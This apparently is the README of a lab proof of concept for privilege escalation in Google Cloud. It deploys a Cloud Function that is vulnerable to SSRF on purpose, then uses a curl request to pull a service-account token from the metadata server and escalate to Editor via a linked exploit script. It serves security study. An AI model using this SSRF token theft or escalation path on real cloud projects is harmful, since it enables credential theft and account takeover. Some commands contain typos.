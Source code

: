 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Install [Terraform](https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli) and [gcloud CLI](https://cloud.google.com/sdk/docs/install).
2. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and copy its ID.
3. Login into `gcloud` with your main GCP user.
```bash
gcloud auth application-default login
```
4. Setup a vulnerable to SSRF Cloud Function with help of Terrafrom scripts. 
```bash
git clone
cd gcp_poc/terraform
terrafrom init -upgrade
terrafrom apply --var gcp_project_id=YOUR_GCP_PROJECT_ID
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```
curl https://YOUR.CLOUD.FUNCTION.URl?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/token&auth=Metadata-Flavor:%20Google
```
2. The  Terraform output you can also find `App Engine` and `Compute Engine ` default service accounts which were created automatically during the Cloud Function creation without explicit creation. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).